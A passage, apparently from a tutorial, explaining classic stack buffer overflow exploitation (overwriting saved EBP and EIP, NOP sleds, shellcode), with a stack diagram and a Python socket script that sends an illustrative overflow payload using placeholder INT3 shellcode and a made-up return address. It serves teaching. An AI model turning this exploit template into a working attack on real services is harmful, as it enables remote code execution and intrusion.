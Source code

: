 4. **Overwrite Saved EIP**:
    - The excessive input continues to overwrite the saved EBP and eventually the saved EIP.
    - By controlling the EIP, the attacker can redirect execution flow.

5. **NOP Sled and Shellcode**:
    - The payload typically includes a NOP sled (series of `0x90` bytes) followed by shellcode.
    - The NOP sled ensures that execution slides into the shellcode.

6. **Control Flow**:
    - When the function returns, it uses the overwritten EIP.
    - The overwritten EIP points to the NOP sled.
    - Execution flows through the NOP sled into the shellcode.

Here’s an example of how this looks in memory:

```
Stack (during overflow):
+--------------------------+
| Return Address (EIP)     | <- Overwritten (0x12345678 -> NOP sled)
+--------------------------+
| Saved EBP                | <- Overwritten (BBBB)
+--------------------------+
| Buffer                   | <- Overwritten (AAAA...)
| (User Input)             |
+--------------------------+

Payload:
[ "A" * 256 ] [ "B" * 4 ] [ 0x12345678 ] [ "\x90" * 16 ] [ shellcode ]
```

**Python Example to Illustrate Exploit**:

```python
import socket

target_ip = "192.168.1.100"
target_port = 9999
buffer = b"A" * 256
buffer += b"B" * 4
buffer += b"\x12\x34\x56\x78"  # Example address of NOP sled
buffer += b"\x90" * 16  # NOP sled
buffer += b"\xcc\xcc\xcc\xcc"  # Example shellcode (INT3 instructions)

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target_ip, target_port))
s.send(buffer)
s.close()
```

In this example, the `A`s fill the buffer, `B`s overwrite the saved EBP, and `0x12345678` (example address) overwrites the saved EIP to point to the NOP sled, which then leads to the shellcode execution. The `NOP sled` ensures the CPU safely lands into the shellcode for execution.

## Identifying Vulnerable Programs
